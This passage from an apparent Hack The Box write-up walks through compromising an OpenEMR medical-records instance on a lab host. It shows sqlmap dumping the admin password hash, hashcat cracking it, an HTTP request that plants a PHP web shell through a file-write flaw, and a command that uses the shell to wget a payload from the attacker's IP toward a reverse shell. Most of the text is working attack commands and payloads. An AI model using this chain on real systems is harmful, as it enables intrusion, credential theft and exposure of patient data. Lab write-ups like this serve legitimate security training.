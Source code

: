 ```bash
$ sqlmap -r req -D openemr --sql-shell
```

Since the password are store in users_secure table.

```bash
sql-shell> select username,password from users_secure where username='openemr_admin'
```

Got

```jsx
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```

In order to crack the hash, I used Hashcat

```bash
$ hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --force
```

-m is mode. 3200 in this case.More information [here](https://hashcat.net/wiki/doku.php?id=example_hashes).

Got the password

```jsx
xxxxxx
```

After logging in I used the file write vulnerability to get a web shell

```bash
POST /portal/import_template.php HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Cookie: OpenEMR=flkitdeg9uq80t14epdageol04; PHPSESSID=8nplapta7mu115798ji7h5s0cu
Connection: close
Upgrade-Insecure-Requests: 1

mode=save&docid=rce.php&content=<?php system($_GET['cmd']);?>
```

Used this web shell to get reverse shell

```bash
http://hms.htb/portal/rce.php?cmd=wget 10.10.14.72:1234/sh.php
```

![/assets/images/cache_HTB/Untitled%207.png](/assets/images/cache_HTB/Untitled%207.png)
